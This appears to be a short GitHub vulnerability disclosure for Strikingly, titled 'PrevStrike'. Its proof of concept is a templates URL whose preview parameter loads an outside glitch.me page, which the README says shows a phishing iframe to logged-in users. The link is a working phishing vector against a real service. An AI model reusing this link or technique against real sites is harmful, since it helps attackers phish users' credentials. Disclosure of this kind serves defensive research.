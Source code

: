  Strikingly Vulnerability - PrevStrike
================================================
 ```⚠︎ ON COMPUTER OR PC MODE ONLY ⚠︎```
================================================
#### Vuln Title: PrevStrike
#### Vuln Level: Critical
#### Vuln Type: Iframe Exploit
#### Vuln Discovery Date: 2025-01-25
#### Discovered By: Hextass Group // Trabbit0ne
---
## PoC

1) Go To ```strikingly.com``` and login/register a account.

2) Go to ```https://www.strikingly.com/templates?is_new_user=1#preview=https://strikingly.glitch.me``` or scan the QR code.

<img src="https://github.com/user-attachments/assets/9303e11c-d2cf-4fc3-9141-91c959940dc7" style="width: 36%;">


3) A Phishing Iframe Should Appear (``Note: The Iframe Only Appear If Already Connected``)

4) Done.
